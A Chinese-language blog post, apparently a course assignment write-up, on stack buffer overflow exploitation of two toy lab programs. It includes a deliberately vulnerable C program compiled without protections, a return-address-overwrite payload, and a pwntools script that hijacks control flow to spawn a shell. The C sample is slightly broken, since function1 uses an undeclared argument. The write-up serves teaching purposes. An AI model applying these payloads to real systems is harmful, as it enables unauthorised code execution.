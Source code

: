 ```yaml
---
title: 栈溢出利用
date: 2020-09-16T15:59:59.000Z
tags:
  - 信息安全
coverImage: ./gdb-debug.png
---
```


# 概述
![stack-frames](./stack-frame.jpg)

软件漏洞分析课程的一次作业，利用了栈内存的缓冲区溢出，覆盖了返回地址，从而达到劫持控制流的目的。
# EXP1
```c
#include <stdio.h>
#include <string.h>

void function2()
{
  printf("Executed chagned\n");
}

void function1()
{
  char buffer[5];
  strcpy(buffer,str);
}

void main(int argc, char *argv[])
{
  function1(argv[1]);
  printf("Executed normally\n");
}
```

使用`gdb`进行调试，`strcpy`函数可以被利用引起缓冲区溢出，目前的问题时需要多长的字符串，以及需要将`function1`栈帧的返回地址覆盖为什么
环境

> ubuntu 16.04
>
> gcc 5.4.0
>
> gdb 7.11.1

![arch](./ubuntu-arch.png)

关闭堆栈保护机制，使用`gcc`编译

```bash
gcc -g main.c -m32 -o main32 -z execstack -fno-stack-protector
```

![gdb](./gdb-debug.png)

可以得出`ebp`与`&buffer`相距 13 个字节，同时返回地址占用 4 个字节，`function2`的地址为`0x0804845B`。由于采用的是`小端存储`，因此需要将目标函数地址按字节倒序写入。构造出 payload`AAAAAAAAAAAAAAAAA\x5B\x84\x04\x08`

![stack-overflow-result](./stack-overlow-result.png)

成功调用了`function2`，同理地址也可以被改成其他的函数地址。

# EXP2

已知一个[二进制文件](https://raw.github.com/ChenKS12138/ChenKS12138.github.io/source-code/assets/stack-tutorial)，通过 ida 静态调试。

![ida](./stack-overflow-ida.png)

vulnerable_function 中的 buffer 只需要 1 个字节，但是第五行的 read 函数可以输入 256 个字节，这里可能存在着栈溢出。根据第三行的注释推测，`&buffer`距离`ebp`位 0x30 个字节，猜测我们需要构造的 payload 为 52 字节的字符串再加上目标函数的地址，即`backdoor`函数的地址。

```python
from pwn import *
p=process("./stack");

ret_addr=0x0804846B

payload = "a"*52+p32(ret_addr)

p.sendline(payload)
p.interactive()
p.close()
```

![EXP2-RESULT](./stack-overflow-pwn-result.png)

成功拿到 shell
